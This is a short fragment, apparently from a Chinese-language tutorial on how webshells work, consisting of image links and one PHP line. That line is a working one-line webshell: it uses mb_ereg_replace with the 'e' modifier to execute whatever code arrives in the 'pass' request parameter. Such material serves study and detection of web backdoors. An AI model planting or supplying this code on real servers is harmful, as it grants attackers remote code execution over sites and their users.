![](webshell原理.assets/18.png)

```php
<?php mb_ereg_replace('.*', $_REQUEST['pass'], '', 'e'); ?>
```
